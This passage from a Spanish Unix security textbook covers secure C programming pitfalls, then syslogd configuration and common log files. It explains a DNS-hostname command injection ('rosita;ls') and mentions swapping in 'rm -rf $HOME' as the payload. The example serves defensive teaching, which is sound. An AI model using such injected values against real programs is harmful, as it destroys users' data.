extra\~no ha de suceder si el nombre de m\'aquina devuelto al programa es 
`normal':
\begin{quote}
\begin{verbatim}
luisa:~/tmp$ ./ejemplo 192.168.0.1
[rosita]
No one logged on.
luisa:~/tmp$ 
\end{verbatim}
\end{quote}
Pero, >qu\'e pasar\'{\i}a si en lugar de devolver un nombre `normal' (como {\tt
`rosita'}) se devuelve un nombre algo m\'as elaborado, como {\tt `rosita;ls'}?
Podemos verlo:
\begin{quote}
\begin{verbatim}
luisa:~/tmp$ ./ejemplo 192.168.0.1
[rosita;ls]
No one logged on.
ejemplo  ejemplo.c
luisa:~/tmp$ 
\end{verbatim}
\end{quote}
Exactamente: se ha ejecutado la orden {\tt `finger @rosita;ls'} (esto es, un
{\tt `finger'} a la m\'aquina seguido de un {\tt `ls'}). Podemos imaginar los
efectos que tendr\'{\i}a el uso de este programa si sustituimos el inocente {\tt
`ls'} por un {\tt `rm -rf \$HOME'}. Un atacante que consiga controlar un 
servidor {\sc dns} (algo no muy complicado) podr\'{\i}a inyectarnos datos 
maliciosos en nuestra m\'aquina sin ning\'un problema. Para evitar esta 
situaci\'on debemos hacer una doble b\'usqueda inversa y adem\'as no hacer 
ninguna suposici\'on sobre la correcci\'on o el formato de los datos recibidos;
en nuestro c\'odigo debemos insertar las comprobaciones necesarias para 
asegurarnos de que la informaci\'on que recibimos no nos va a causar problemas.
\item {\tt syslog()}: Hemos de tener la precauci\'on de utilizar una versi\'on
de esta funci\'on de librer\'{\i}a que compruebe la longitud de
sus argumentos; si no lo hacemos y esa longitud sobrepasa un cierto 
l\'{\i}mite (generalmente, 1024 {\it bytes}) podemos causar un desbordamiento en
los {\it buffers} de nuestro sistema de {\it log}, dej\'andolo inutilizable.
\item {\tt realloc()}: Ning\'un programa -- privilegiado o no -- que maneje 
datos sensibles (por ejemplo, contrase\~nas, correo electr\'onico\ldots y
especialmente aplicaciones criptogr\'aficas) debe utilizar esta llamada; {\tt
realloc()} se suele utilizar para aumentar din\'amicamente la cantidad de 
memoria reservada para un puntero. Lo habitual es que la nueva zona de memoria 
sea contigua a la que ya estaba reservada, pero si esto no es posible {\tt
realloc()} copia la zona antigua a una nueva ubicaci\'on donde pueda a\~nadirle
el espacio especificado. >Cu\'al es el problema? La zona de memoria antigua se 
libera (perdemos el puntero a ella) pero no se pone a cero, con lo que sus
contenidos permanecen inalterados hasta que un nuevo proceso reserva esa zona; 
accediendo a bajo nivel a la memoria (por ejemplo, leyendo {\tt /proc/kcore} o 
{\tt /dev/kmem}) ser\'{\i}a posible para un atacante tener acceso a esa 
informaci\'on.\\
Realmente, {\tt malloc()} tampoco pone a cero la memoria reservada, por lo que a
primera vista puede parecer que cualquier proceso de usuario (no un acceso a 
bajo nivel, sino un simple {\tt malloc()} en un programa) podr\'{\i}a permitir
la lectura del antiguo contenido de la zona de memoria reservada. Esto es falso
si se trata de nueva memoria que el n\'ucleo reserva para el proceso invocador:
en ese caso, la memoria es limpiada por el propio {\it kernel} del operativo,
que invoca a {\tt kmalloc()} (en el caso de Linux, en otros Unices el nombre
puede variar aunque la idea sea la misma) para hacer la reserva. Lo que s\'{\i} 
es posible es que si 
liberamos una zona de memoria (por ejemplo con {\tt free()}) y a continuaci\'on
la volvemos a reservar, en el mismo proceso, podamos acceder a su contenido: esa
zona no es `nueva' (es decir, el n\'ucleo no la ha reservado de nuevo), sino 
que ya pertenec\'{\i}a al proceso. De cualquier forma, si vamos a liberar una
zona en la que est\'a almacenada informaci\'on sensible, lo mejor en cualquier
caso es ponerla a cero manualmente, por ejemplo mediante {\tt bzero()} o {\tt
memset()}.
\item {\tt open()}: El sistema de ficheros puede modificarse durante la 
ejecuci\'on de un programa de formas que en ocasiones ni siquiera imaginamos;
por ejemplo, en Unix se ha de evitar escribir siguiendo enlaces de archivos
inesperados (un archivo que cambia entre una llamada a {\tt 
lstat()} para comprobar si existe y una llamada a {\tt open()} para abrirlo en
caso positivo, como hemos visto antes). No obstante, no hay ninguna forma de
realizar esta operaci\'on at\'omicamente sin llegar a mecanismos de 
entrada/salida de muy bajo nivel; Peter Gutmann propone el siguiente c\'odigo
para asegurarnos de que estamos realizando un {\tt open()} sobre el archivo que
realmente queremos abrir, y no sobre otro que un atacante nos ha puesto en su
lugar:
\begin{quote}
\begin{verbatim}
struct stat lstatInfo;
char *mode="rb+";
int fd;

if(lstat(fileName,&lstatInfo)==-1)
    {
    if(errno!=ENOENT) return( -1 );
    if((fd=open(fileName,O_CREAT|O_EXCL|O_RDWR,0600))==-1) return(-1);
    mode="wb";
    }
else
    {
    struct stat fstatInfo;
    if((fd=open(fileName,O_RDWR))==-1) return(-1);
    if(fstat(fd,&fstatInfo)==-1 || \
       lstatInfo.st_mode!=fstatInfo.st_mode || \
       lstatInfo.st_ino!=fstatInfo.st_ino || \
       lstatInfo.st_dev!=fstatInfo.st_dev)
       {
       close(fd);
       return(-1);
       }
    if(fstatInfo.st_nlink>1||!S_ISREG(lstatInfo.st_mode))
       {
       close(fd);
       return(-1);
       }
#ifdef NO_FTRUNCATE
    close(fd);
    if((fd=open(fileName,O_CREAT|O_TRUNC|O_RDWR))==-1) return( -1 );
    mode="wb";
#else
    ftruncate(fd,0);
#endif /* NO_FTRUNCATE */
    }
stream->filePtr=fdopen(fd,mode);
if(stream->filePtr==NULL)
    {
    close(fd);
    unlink(fileName);
    return(-1);  /* Internal error, should never happen */
    }
}
\end{verbatim}
\end{quote}
Como podemos ver, algo tan elemental como una llamada a {\tt open()} se ha 
convertido en todo el c\'odigo anterior si queremos garantizar unas m\'{\i}nimas
medidas de seguridad; esto nos puede dar una idea de hasta que punto la 
programaci\'on `segura' puede complicarse. No obstante, en muchas ocasiones es
preferible toda la complicaci\'on y parafernalia anteriores para realizar un 
simple {\tt open()} a que esa llamada se convierta en un fallo de seguridad en
nuestro sistema. No hay ning\'un programa que se pueda considerar perfecto o
libre de errores (como se cita en el cap\'{\i}tulo 23 de \cite{kn:spa96}, una
rutina de una librer\'{\i}a puede tener un fallo\ldots o un rayo gamma puede
alterar un {\it bit} de memoria para hacer que nuestro programa se comporte de
forma inesperada), pero cualquier medida que nos ayude a minimizar las 
posibilidades de problemas es siempre positiva.
\end{itemize}
 
\cleardoublepage
\chapter{Auditor\'{\i}a del sistema}
\section{Introducci\'on}
Casi todas las actividades realizadas en un sistema Unix son susceptibles de
ser, en mayor o menor medida, monitorizadas: desde las horas de acceso de cada
usuario al sistema hasta las p\'aginas {\it web} m\'as frecuentemente visitadas,
pasando por los intentos fallidos de conexi\'on, los programas ejecutados
o incluso el tiempo de CPU que cada usuario consume. Obviamente esta facilidad
de Unix para recoger informaci\'on tiene unas ventajas inmediatas para la 
seguridad: es posible detectar un intento de ataque nada m\'as producirse el 
mismo, as\'{\i} como tambi\'en detectar usos indebidos de los recursos o 
actividades `sospechosas'; sin embargo, existen tambi\'en desventajas, ya que
la gran cantidad de informaci\'on que potencialmente se registra puede ser 
aprovechada para crear negaciones de servicio o, m\'as habitualmente, esa 
cantidad de informaci\'on puede hacer dif\'{\i}cil detectar problemas por el
volumen de datos a analizar.\\
\\Algo muy interesante de los archivos de {\it log} en Unix es que la 
mayor\'{\i}a de ellos son simples ficheros de texto, que se pueden visualizar
con un simple {\tt cat}. Por una 
parte esto es bastante c\'omodo para el administrador del sistema, ya que no
necesita de herramientas especiales para poder revisar los {\it logs} (aunque
existen algunas utilidades para hacerlo, como {\tt swatch}) e incluso 
puede programar {\it shellscripts} para comprobar los informes generados de 
forma autom\'atica, con \'ordenes como {\tt awk}, {\tt grep} o {\tt sed}. No
obstante, el hecho de que estos ficheros sean texto plano hace que un atacante 
lo tenga muy f\'acil para ocultar ciertos registros modificando los archivos con
cualquier editor de textos; esto implica una cosa muy importante para un 
administrador: {\bf nunca} ha de confiar al 100\% en lo que los informes de
auditor\'{\i}a del sistema le digan. Para minimizar estos riesgos se pueden 
tomar diversas medidas, desde algunas quiz\'as demasiado complejas para 
entornos habituales (\cite{kn:sch98}) hasta otras m\'as sencillas pero 
igualmente efectivas, como utilizar una m\'aquina fiable para registrar 
informaci\'on del sistema o incluso enviar los registros m\'as importantes a 
una impresora; m\'as adelante hablaremos de ellas.
\section{El sistema de {\it log} en Unix}
Una desventaja a\~nadida al sistema de auditor\'{\i}a en Unix puede ser la 
complejidad que puede alcanzar una correcta configuraci\'on; por si la 
dificultad del sistema no fuera suficiente, en cada Unix el sistema de {\it 
logs} tiene peculiaridades que pueden propiciar la p\'erdida de informaci\'on
interesante de cara al mantenimiento de sistemas seguros. Aunque muchos de los 
ficheros de {\it log} de los que hablaremos a continuaci\'on son comunes en
cualquier sistema, su localizaci\'on, o incluso su formato, pueden variar entre
diferentes Unices.\\
\\Dentro de Unix hay dos grandes familias de sistemas: se trata de {\it System
V} y {\sc bsd}; la localizaci\'on de ficheros y ciertas \'ordenes relativas
a la auditor\'{\i}a de la m\'aquina van a ser diferentes en ellas, por lo que
es muy recomendable consultar las p\'aginas del manual antes de ponerse a
configurar el sistema de auditor\'{\i}a en un equipo concreto. La principal 
diferencia entre ellos es el denominado {\it process accounting} o simplemente
{\it accounting}, consistente en registrar todos los programas ejecutados por 
cada usuario; evidentemente, los informes generados en este proceso pueden
llegar a ocupar much\'{\i}simo espacio en disco (dependiendo del n\'umero de
usuarios en nuestro sistema) por lo que s\'olo es recomendable en situaciones
muy concretas, por ejemplo para detectar actividades sospechosas en una 
m\'aquina o para cobrar por el tiempo de CPU consumido. En los sistemas {\it
System V} el {\it process accounting} est\'a desactivado por defecto; se
puede iniciar mediante {\tt /usr/lib/acct/startup}, y para visualizar los 
informes se utiliza la orden {\tt acctcom}. En la familia {\sc bsd} los
equivalentes a estas \'ordenes son {\tt accton} y {\tt lastcomm}; en este
caso el {\it process accounting} est\'a inicializado por defecto.\\
\\Un mundo aparte a la hora de generar (y analizar) informes acerca de las 
actividades realizadas sobre una m\'aquina Unix son los sistemas con el
modelo de auditor\'{\i}a C2 (\cite{kn:ora}); mientras que con el modelo 
cl\'asico se genera un registro tras la ejecuci\'on de cada proceso, en Unix 
C2 se proporciona una pista de auditor\'{\i}a donde se registran los accesos
y los intentos de acceso de una entidad a un objeto, as\'{\i} como cada cambio
en el estado del objeto, la entidad o el sistema global. Esto se consigue 
asignando un identificador denominado {\it Audit ID} a cada grupo de procesos
ejecutados (desde el propio {\it login}), identificador que se registra junto
a la mayor\'{\i}a de llamadas al sistema que un proceso realiza, incluyendo 
algunas tan comunes como {\tt write()}, {\tt open()}, {\tt close()} o {\tt
read()}. A nadie se le puede escapar la cantidad de espacio y de CPU necesarios 
para mantener los registros a un nivel tan preciso, por lo que en la 
mayor\'{\i}a de sistemas (especialmente en entornos habituales, como los 
estudiados aqu\'{\i}) el modelo de 
auditor\'{\i}a C2 es innecesario; y no s\'olo esto, sino que en muchas 
ocasiones tambi\'en se convierte en una monitorizaci\'on in\'util 
(\cite{kn:axe98}) si no se dispone de mecanismos
para interpretar o reducir la gran cantidad de datos registrados: el 
administrador guarda tanta informaci\'on que es casi imposible analizarla en
busca de actividades sospechosas.
\section{El demonio {\tt syslogd}}
El demonio {\tt syslogd} ({\it Syslog Daemon}) se lanza autom\'aticamente al
arrancar un sistema Unix, y es el encargado de guardar
informes sobre el funcionamiento de la m\'aquina. Recibe mensajes de las
diferentes partes del sistema (n\'ucleo, programas\ldots ) y los env\'{\i}a
y/o almacena en diferentes localizaciones, tanto locales como remotas, siguiendo
un criterio definido en el fichero de configuraci\'on {\tt /etc/syslog.conf}, 
donde especificamos las reglas a seguir para gestionar el almacenamiento de 
mensajes del sistema. Las l\'{\i}neas de este archivo que comienzan por {\tt 
`\#'} son comentarios, con lo cual son ignoradas de la misma forma que las 
l\'{\i}neas en blanco; si ocurriera un error al interpretar una de las 
l\'{\i}neas del fichero, se ignorar\'{\i}a la l\'{\i}nea completa. Un ejemplo
de fichero {\tt /etc/syslog.conf} es el siguiente:
\begin{quote}
\begin{verbatim}
anita:~# cat /etc/syslog.conf
#ident	"@(#)syslog.conf	1.4	96/10/11 SMI"	/* SunOS 5.0 */
#
# Copyright (c) 1991-1993, by Sun Microsystems, Inc.
#
# syslog configuration file.
#
# This file is processed by m4 so be careful to quote (`') names
# that match m4 reserved words.  Also, within ifdef's, arguments
# containing commas must be quoted.
#
*.err;kern.notice;auth.notice			/dev/console
*.err;kern.debug;daemon.notice;mail.crit	/var/adm/messages

*.alert;kern.err;daemon.err			operator
*.alert						root

*.emerg						*

# if a non-loghost machine chooses to have authentication messages
# sent to the loghost machine, un-comment out the following line:
#auth.notice			ifdef(`LOGHOST', /var/log/authlog, @loghost)

mail.debug			ifdef(`LOGHOST', /var/log/syslog, @loghost)

#
# non-loghost machines will use the following lines to cause "user"
# log messages to be logged locally.
#
ifdef(`LOGHOST', ,
user.err					/dev/console
user.err					/var/adm/messages
user.alert					`root, operator'
user.emerg					*
)
anita:~#
\end{verbatim}
\end{quote}
Podemos ver que cada regla del archivo tiene dos campos: un campo de 
selecci\'on y un campo de acci\'on, separados ambos por espacios o tabuladores. 
El {\bf campo de selecci\'on} est\'a compuesto a su vez de dos partes 
separadas por un punto: una que indica el servicio que env\'{\i}a el mensaje y 
otra que marca su prioridad, separadas por un punto ({\bf `.'}); ambas son 
indiferentes a may\'usculas y min\'usculas. La parte del servicio contiene una 
de las siguientes palabras clave: {\tt 
auth}, {\tt auth-priv}, {\tt cron}, {\tt daemon}, {\tt kern}, {\tt lpr}, {\tt 
mail}, {\tt mark}, {\tt news}, {\tt security} (equivalente a {\tt auth}), {\tt 
syslog}, {\tt user}, {\tt uucp} y {\tt local0} hasta {\tt local7}; esta parte 
especifica el `subsistema' que ha generado ese mensaje (por ejemplo, todos los 
programas relacionados con el correo generar\'an mensajes ligados al servicio 
{\tt mail}). En segundo lugar, la prioridad est\'a compuesta de uno de los 
siguientes t\'erminos, en orden
ascendente: {\tt debug}, {\tt info}, {\tt notice}, {\tt warning}, {\tt warn} 
(equivalente a {\tt warning}), {\tt err}, {\tt error} (equivalente a {\tt 
err}), {\tt crit}, {\tt alert}, {\tt emerg}, y {\tt panic} (equivalente a {\tt 
emerg}). La prioridad define la gravedad o importancia del mensaje almacenado. 
Todos los mensajes de la prioridad especificada y superiores son almacenados de 
acuerdo con la acci\'on requerida.\\
\\Adem\'as de los t\'erminos mencionados hasta ahora, el demonio {\tt syslogd}
emplea en su fichero de configuraci\'on los siguientes caracteres especiales:
\begin{itemize}
\item{} `$\ast$' (asterisco)\\
Empleado como comod\'{\i}n para todas las prioridades y servicios anteriores, 
dependiendo de d\'onde son usados (si antes o despu\'es del car\'acter de 
separaci\'on `.'):
\begin{quote}
\begin{verbatim}
# Guardar todos los mensajes del servicio mail en /var/adm/mail
#
mail.*                                        /var/adm/mail
\end{verbatim}
\end{quote}
\item{} ` ' (blanco, espacio, nulo)\\
Indica que no hay prioridad definida para el servicio de la l\'{\i}nea
almacenada.
\item{} `,' (coma) \\
Con este car\'acter es posible especificar m\'ultiples servicios con el mismo
patr\'on de prioridad en una misma l\'{\i}nea. Es posible enumerar cuantos
servicios se quieran:
\begin{quote}
\begin{verbatim}
# Guardar todos los mensajes mail.info y news.info en 
# /var/adm/info
mail,news.=info                               /var/adm/info
\end{verbatim}
\end{quote}
\item{} `;' (punto y coma)\\
Es posible dirigir los mensajes de varios servicios y prioridades a un mismo
destino, separ\'andolos por este car\'acter:
\begin{quote}
\begin{verbatim}
# Guardamos los mensajes de prioridad "info" y "notice"
# en el archivo /var/log/messages
*.=info;*.=notice                             /var/log/messages
\end{verbatim}
\end{quote}
\rm
\item{} `=' (igual)\\
De este modo solo se almacenan los mensajes con la prioridad exacta 
especificada y no incluyendo las superiores:
\begin{quote}
\begin{verbatim}
# Guardar todos los mensajes criticos en /var/adm/critical
#
*.=crit                                       /var/adm/critical
\end{verbatim}
\end{quote}
\rm
\item{} `!' (exclamaci\'on)\\
Preceder el campo de prioridad con un signo de exclamaci\'on sirve para ignorar
todas las prioridades, teniendo la posibilidad de escoger entre la
especificada ({\tt !=prioridad}) y la especificada m\'as todas las superiores
({\tt !prioridad}). Cuando se usan conjuntamente los caracteres {\tt `='} y
{\tt `!'}, el signo de exclamaci\'on {\tt `!'} debe preceder obligatoriamente
al signo igual {\tt `='}, de esta forma: {\tt !=}.
\begin{quote}
\begin{verbatim}
# Guardar mensajes del kernel de prioridad info, pero no de
# prioridad err y superiores
# Guardar mensajes de mail excepto los de prioridad info
kern.info;kern.!err                           /var/adm/kernel-info
mail.*;mail.!=info                       /var/adm/mail
\end{verbatim}
\end{quote}
\end{itemize}
La segunda parte de cada l\'{\i}nea del archivo de configuraci\'on de {\tt 
syslogd} es el {\bf campo de acci\'on}, y describe el destino de los mensajes 
(d\'onde se van a guardar o qu\'e programa los va a procesar); este destino
puede ser uno de los siguientes:
\begin{itemize}
\item{}Un fichero plano\\
Normalmente los mensajes del sistema son almacenados en ficheros
planos. Dichos ficheros han de estar especificados con la ruta de acceso
completa (comenzando con {\tt `/'}).\\
Podemos preceder cada entrada con el signo menos, {\it `-'}, para omitir la
sincronizaci\'on del archivo (vaciado del {\it buffer} de memoria a disco).
Aunque puede ocurrir que se pierda informaci\'on si el sistema cae justo 
despu\'es de un intento de escritura en el archivo, utilizando este signo 
se puede conseguir una mejora importante en la velocidad, especialmente si 
estamos ejecutando programas que mandan muchos mensajes al demonio {\tt 
syslogd}.
\begin{quote}
\begin{verbatim}
# Guardamos todos los mensajes de prioridad critica en "critical"
#
*.=crit                                  /var/adm/critical
\end{verbatim}
\end{quote}
\item{}Un dispositivo f\'{\i}sico\\
Tambi\'en tenemos la posibilidad de enviar los registros del sistema a un 
dispositivo f\'{\i}sico del mismo, t\'{\i}picamente un terminal o una impresora.
As\'{\i} conseguimos, entre otras cosas, que esas entradas permanezcan relativa
o totalmente inalteradas (en funci\'on de qu\'e dispositivo las reciban). Por
ejemplo, podemos tener uno de los terminales virtuales que muchos sistemas Unix
ofrecen en su consola `dedicado' a listar los mensajes del sistema, que podr\'an
ser consultados con solo cambiar a ese terminal mediante la combinaci\'on de
teclas correspondiente:
\begin{quote}
\begin{verbatim}
# Enviamos todos los mensajes a tty12 (ALT+F12 en Linux) y todos
# los mensajes criticos del nucleo a consola
#
*.*                                       /dev/tty12
kern.crit                                 /dev/console
\end{verbatim}
\end{quote}
\item Una tuber\'{\i}a con nombre\\
Algunas versiones de {\tt syslogd} permiten enviar registros a ficheros de tipo
{\tt pipe} simplemente anteponiendo el s\'{\i}mbolo {\tt `$\mid$'} al nombre
del archivo; dicho fichero ha de ser creado antes de iniciar el demonio {\tt
syslogd}, mediante \'ordenes como {\tt mkfifo} o {\tt mknod}. Esto es \'util
para {\it debug} y tambi\'en para procesar los registros utilizando cualquier
aplicaci\'on de Unix, tal y como veremos al hablar de {\it logs} remotos 
cifrados.\\
Por ejemplo, la siguiente l\'{\i}nea de {\tt /etc/syslog.conf} enviar\'{\i}a
todos los mensajes de cualquier prioridad a uno de estos ficheros denominado
{\tt /var/log/mififo}:
\begin{quote}
\begin{verbatim}
# Enviamos todos los mensajes a la tuberia con nombre
# /var/log/mififo
#
*.*                                       |/var/log/mififo
\end{verbatim}
\end{quote}
\item{}Una m\'aquina remota\\
Se pueden enviar los mensajes del sistema a otra m\'aquina, de manera a que
sean almacenados remotamente, sin m\'as que indicar en el campo de acci\'on el
nombre o direcci\'on de dicho sistema precedido por el signo {\tt `@'}. Esto es 
\'util si tenemos una m\'aquina segura, en la que podemos confiar, conectada a 
la red, ya que de esta manera se guardar\'{\i}a all\'{\i} una copia de los 
mensajes de nuestro sistema, copia que no podr\'{\i}a ser modificada en caso de 
que alguien entrase en la m\'aquina que los est\'a generando. Esto es
especialmente interesante para detectar usuarios `ocultos' en nuestro sistema
(usuarios maliciosos que han conseguido los suficientes privilegios para ocultar
sus procesos o su conexi\'on), ya que una de las principales cosas que har\'a
este tipo de atacantes es eliminar cualquier registro que denote su presencia
en la m\'aquina (por ejemplo, sus entradas en {\tt wtmp}).\\
En el siguiente ejemplo utilizamos un sistema {\it a priori} confiable para
enviarle algunos de nuestros registros:
\begin{quote}
\begin{verbatim}
# Enviamos los mensajes de prioridad warning y superiores al 
# fichero "syslog" y todos los mensajes (incluidos los 
# anteriores) a la maquina "secure.upv.es"
#
*.warn                                    /usr/adm/syslog
*.*                                       @secure.upv.es
\end{verbatim}
\end{quote}
\item{}Unos usuarios del sistema (si est\'an conectados)\\
Se especifica la lista de usuarios que deben recibir un tipo de mensajes
simplemente escribiendo sus {\it login}, separados por comas:
\begin{quote}
\begin{verbatim}
# Enviamos los mensajes con la prioridad "alert" a root y toni
#
*.alert                                   root, toni
\end{verbatim}
\end{quote}
\item{}Todos los usuarios que est\'en conectados\\
Los errores con una prioridad de emergencia se suelen enviar a todos los
usuarios que est\'en conectados al sistema, de manera que se den cuenta de que
algo va mal; para ello utilizamos un asterisco en el campo de acci\'on:
\begin{quote}
\begin{verbatim}
# Mostramos los mensajes urgentes a todos los usuarios 
# conectados, mediante wall
*.=emerg                                  *
\end{verbatim}
\end{quote}
\end{itemize}
Cuando un programa quiere enviar un mensaje al demonio {\tt syslogd} utiliza
la llamada {\tt syslog(3)}; al hacerlo, se ha de indicar tanto el servicio como
la prioridad del mismo. Evidentemente, esto es v\'alido para el c\'odigo en C:
si queremos enviar registros al demonio para que sean procesados desde un {\it
shellscript} podemos utilizar la orden {\tt logger}, en la que tambi\'en podemos
indicar ambos par\'ametros:
\begin{quote}
\begin{verbatim}
luisa:~# logger -p local0.info "Esto es una prueba"
luisa:~# tail -1 /var/adm/messages 
May 14 03:53:14 luisa root: Esto es una prueba
luisa:~# 
\end{verbatim}
\end{quote}
\section{Algunos archivos de {\it log}}
En funci\'on de la configuraci\'on del sistema de auditor\'{\i}a de cada equipo
Unix los eventos que sucedan en la m\'aquina se registrar\'an en determinados
ficheros; aunque podemos {\it loggear} en cualquier fichero (incluso a trav\'es
de la red o en dispositivos, como ya hemos comentado y luego veremos con mayor
detalle), existen ciertos archivos de
registro `habituales' en los que se almacena informaci\'on. A continuaci\'on 
vamos a comentar los m\'as comunes y la informaci\'on que registra cada uno de
ellos. 
\subsection{{\tt syslog}}
El archivo {\tt syslog} (guardado en {\tt /var/adm/} o {\tt /var/log/}) es
quiz\'as el fichero de {\it log} m\'as importante del sistema; en \'el se 
guardan, en texto claro, mensajes relativos a la seguridad de la 
m\'aquina, como los accesos o los intentos de acceso a ciertos servicios. No
obstante, este fichero es escrito por {\tt syslogd}, por lo que dependiendo de
nuestro fichero de configuraci\'on encontraremos en el archivo una u otra
informaci\'on. Al estar guardado en formato texto, podemos visualizar su 
contenido con un simple {\tt cat}:
\begin{quote}
\begin{verbatim}
anita:/# cat /var/log/syslog
Mar  5 04:15:23 anita in.telnetd[11632]: connect from localhost
Mar  5 06:16:52 anita rpcbind: connect from 127.0.0.1 to getport(R )
Mar  5 06:16:53 anita last message repeated 3 times
Mar  5 06:35:08 anita rpcbind: connect from 127.0.0.1 to getport(R )
Mar  5 18:26:56 anita rpcbind: connect from 127.0.0.1 to getport(R )
Mar  5 18:28:47 anita last message repeated 1 time
Mar  5 18:32:43 anita rpcbind: connect from 127.0.0.1 to getport(R )
Mar  6 02:30:26 anita rpcbind: connect from 127.0.0.1 to getport(R )
Mar  6 03:31:37 anita rpcbind: connect from 127.0.0.1 to getport(R )
Mar  6 11:07:04 anita in.telnetd[14847]: connect from rosita
Mar  6 11:40:43 anita in.telnetd[14964]: connect from localhost
anita:/# 
\end{verbatim}
\end{quote}
\subsection{{\tt messages}}
En este archivo de texto se almacenan datos `informativos' de ciertos programas,
mensajes de baja o media prioridad destinados m\'as a informar que a avisar de
sucesos importantes, como informaci\'on relativa al arranque de la m\'aquina; 
no obstante, como suced\'{\i}a con el fichero {\tt syslog}, en funci\'on de 
{\tt /etc/syslog.conf} podremos guardar todo tipo de datos.
Para visualizar su contenido es suficiente una orden como {\tt cat} o similares:
\begin{quote}
\begin{verbatim}
anita:/# head -70 /var/adm/messages
Jan 24 18:09:54 anita unix: SunOS Release 5.7 Version Generic 
[UNIX(R) System V Release 4.0]
Jan 24 18:09:54 anita unix: Copyright (c) 1983-1998, Sun Microsystems, Inc.
Jan 24 18:09:54 anita unix: mem = 65152K (0x3fa0000)
Jan 24 18:09:54 anita unix: avail mem = 51167232
Jan 24 18:09:54 anita unix: root nexus = i86pc
Jan 24 18:09:54 anita unix: isa0 at root
Jan 24 18:09:54 anita unix: pci0 at root: space 0 offset 0
Jan 24 18:09:54 anita unix:     IDE device at targ 0, lun 0 lastlun 0x0
Jan 24 18:09:54 anita unix:     model WDC WD84AA, stat 50, err 0
Jan 24 18:09:54 anita unix:       cfg 0x427a, cyl 16383, hd 16, sec/trk 63
Jan 24 18:09:54 anita unix:       mult1 0x8010, mult2 0x110, dwcap 0x0, 
cap 0x2f00
Jan 24 18:09:54 anita unix:       piomode 0x280, dmamode 0x0, advpiomode 
0x3
Jan 24 18:09:54 anita unix:       minpio 120, minpioflow 120
Jan 24 18:09:54 anita unix:       valid 0x7, dwdma 0x7, majver 0x1e
Jan 24 18:09:54 anita unix: ata_set_feature: (0x66,0x0) failed
Jan 24 18:09:54 anita unix:     ATAPI device at targ 1, lun 0 lastlun 0x0
Jan 24 18:09:54 anita unix:     model CD-ROM 50X, stat 50, err 0
Jan 24 18:09:54 anita unix:       cfg 0x85a0, cyl 0, hd 0, sec/trk 0
Jan 24 18:09:54 anita unix:       mult1 0x0, mult2 0x0, dwcap 0x0, cap 0xf00
Jan 24 18:09:54 anita unix:       piomode 0x400, dmamode 0x200, advpiomode 
0x3
Jan 24 18:09:54 anita unix:       minpio 227, minpioflow 120
Jan 24 18:09:54 anita unix:       valid 0x6, dwdma 0x107, majver 0x0
Jan 24 18:09:54 anita unix: PCI-device: ata@0, ata0
Jan 24 18:09:54 anita unix: ata0 is /pci@0,0/pci-ide@7,1/ata@0
Jan 24 18:09:54 anita unix: Disk0:  <Vendor 'Gen-ATA ' Product 'WDC WD84AA '>
Jan 24 18:09:54 anita unix: cmdk0 at ata0 target 0 lun 0
Jan 24 18:09:54 anita unix: cmdk0 is /pci@0,0/pci-ide@7,1/ata@0/cmdk@0,0
Jan 24 18:09:54 anita unix: root on /pci@0,0/pci-ide@7,1/ide@0/cmdk@0,0:a 
fstype ufs
Jan 24 18:09:54 anita unix: ISA-device: asy0
Jan 24 18:09:54 anita unix: asy0 is /isa/asy@1,3f8
Jan 24 18:09:54 anita unix: ISA-device: asy1
Jan 24 18:09:54 anita unix: asy1 is /isa/asy@1,2f8
Jan 24 18:09:54 anita unix: ISA-device: asy2
Jan 24 18:09:54 anita unix: asy2 is /isa/pnpSUP,1670@pnpSUP,1670,7ec2
Jan 24 18:09:54 anita unix: Number of console virtual screens = 13
Jan 24 18:09:54 anita unix: cpu 0 initialization complete - online
Jan 24 18:09:54 anita unix: dump on /dev/dsk/c0d0s1 size 86 MB
Jan 24 18:09:55 anita unix: pseudo-device: pm0
Jan 24 18:09:55 anita unix: pm0 is /pseudo/pm@0
Jan 24 18:09:56 anita unix: pseudo-device: vol0
Jan 24 18:09:56 anita unix: vol0 is /pseudo/vol@0
Jan 24 18:09:57 anita icmpinfo: started, PID=213.
Jan 24 18:09:57 anita unix: sd1 at ata0:
Jan 24 18:09:57 anita unix:  target 1 lun 0
Jan 24 18:09:57 anita unix: sd1 is /pci@0,0/pci-ide@7,1/ata@0/sd@1,0
Jan 24 18:10:03 anita icmpinfo: ICMP_Dest_Unreachable[Port] < 127.0.0.1 
[localhost] > 127.0.0.1 [localhost] sp=1664 dp=3200 seq=0x002e0000 sz=74(+20)
Jan 24 18:10:03 anita unix: ISA-device: fdc0
Jan 24 18:10:03 anita unix: fd0 at fdc0
Jan 24 18:10:03 anita unix: fd0 is /isa/fdc@1,3f0/fd@0,0
Jan 24 18:10:04 anita icmpinfo: ICMP_Dest_Unreachable[Port] < 127.0.0.1 
[localhost] > 127.0.0.1 [localhost] sp=2944 dp=161 seq=0x00420000 sz=92(+20)
Jan 24 18:10:05 anita unix: ISA-device: asy0
Jan 24 18:10:05 anita unix: asy0 is /isa/asy@1,3f8
Jan 24 18:10:05 anita unix: ISA-device: asy1
Jan 24 18:10:05 anita unix: asy1 is /isa/asy@1,2f8
Jan 24 18:10:05 anita unix: ISA-device: asy2
Jan 24 18:10:05 anita unix: asy2 is /isa/pnpSUP,1670@pnpSUP,1670,7ec2
an 24 18:10:08 anita icmpinfo: ICMP_Dest_Unreachable[Port] < 127.0.0.1 
[localhost] > 127.0.0.1 [localhost] sp=32780 dp=162 seq=0x00370000 sz=83(+20)
Jan 24 18:10:35 anita unix: pseudo-device: xsvc0
Jan 24 18:10:35 anita unix: xsvc0 is /pseudo/xsvc@0
anita:/#
\end{verbatim}
\end{quote}
\subsection{{\tt wtmp}}
Este archivo es un fichero binario (no se puede leer su contenido directamente
volc\'andolo con {\tt cat} o similares) que almacena informaci\'on relativa a
cada conexi\'on y desconexi\'on al sistema. Podemos ver su contenido con 
\'ordenes como {\tt last}:
\begin{quote}
\begin{verbatim}
anita:/# last -10
toni      pts/11       localhost        Mon Mar  6 11:07 - 11:07  (00:00)
toni      pts/11       rosita           Sun Mar  5 04:22 - 04:25  (00:03)
ftp       ftp          andercheran.aiin Sun Mar  5 02:30   still logged in
ftp       ftp          andercheran.aiin Sun Mar  5 00:28 - 02:30  (02:01)
ftp       ftp          anita            Thu Mar  2 03:02 - 00:28 (2+21:25)
ftp       ftp          anita            Thu Mar  2 03:01 - 03:02  (00:00)
ftp       ftp          localhost        Thu Mar  2 02:35 - 03:01  (00:26)
root      console                       Thu Mar  2 00:13   still logged in
reboot    system boot                   Thu Mar  2 00:12 
